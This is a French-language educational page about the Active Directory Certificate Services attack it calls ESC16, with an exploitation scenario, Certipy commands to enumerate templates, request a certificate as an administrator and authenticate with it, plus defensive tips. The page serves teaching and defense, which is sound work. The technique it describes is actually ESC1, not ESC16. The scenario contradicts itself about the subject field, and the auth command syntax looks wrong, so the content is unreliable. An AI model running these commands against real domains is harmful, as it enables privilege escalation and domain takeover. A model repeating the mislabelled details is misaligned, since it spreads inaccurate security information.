 ```yaml
---
title: ESC16
date: "2025-07-15"
draft: false
---
```


# 🛡️ ESC16

## Qu'est-ce que la vulnérabilité ESC16 ?

**ESC16** est une vulnérabilité liée à l'Active Directory Certificate Services (AD CS) permettant à un attaquant d'obtenir des privilèges élevés en abusant de mauvaises configurations sur l'autorité de certification.

## 🎯 Objectifs pédagogiques

- Comprendre le fonctionnement d'AD CS et des certificats dans AD
- Savoir comment l'attaque ESC16 est réalisée
- Identifier les risques liés à la délégation de droits sur les templates de certificats

## 📋 Exemples de vulnérabilités et exploitation

### Vulnérabilités courantes

- **Templates de certificats mal configurés** : Permettent à des utilisateurs non privilégiés de demander des certificats avec des droits élevés.
- **Extensions dangereuses activées** : Possibilité de demander des certificats pour n'importe quel utilisateur (ESC1, ESC2, ESC8, ESC13, ESC16, etc.).

### Scénario d'exploitation

1. **Identification d'un template vulnérable** :
   - L'attaquant repère un template de certificat qui permet l'inscription par des utilisateurs standards et l'option "ENROLLEE SUPPLIES SUBJECT".
2. **Demande d'un certificat d'administrateur** :
   - L'attaquant demande un certificat pour un compte administrateur en spécifiant son propre nom d'utilisateur dans le champ subject.
3. **Utilisation du certificat pour s'authentifier** :
   - L'attaquant utilise le certificat obtenu pour s'authentifier en tant qu'administrateur.

### Commandes d'exploitation avec Certipy

```bash
# Enumérer les templates vulnérables
certipy-ad find -u user -p 'Password123!' -dc-ip 10.10.10.2 -domain ad.local

# Demander un certificat pour un compte admin
certipy-ad req -u user -p 'Password123!' -ca ca.ad.local -template vuln_template -upn admin@ad.local -dc-ip 10.10.10.2

# Utiliser le certificat pour s'authentifier
certipy-ad auth -u admin@ad.local -p '' -key admin.pfx -dc-ip 10.10.10.2
```

## 🛡️ Bonnes pratiques

- Restreindre les droits d'inscription sur les templates de certificats
- Désactiver les extensions dangereuses sur les templates
- Auditer régulièrement la configuration d'AD CS

## 📚 Ressources utiles

- [HackTricks - ESC16](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-cs-esc1-esc13#esc16)
- [Certipy - ESC16](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
- [Microsoft - AD CS](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-cs/)

---

_Dernière mise à jour : 15 juillet 2025_
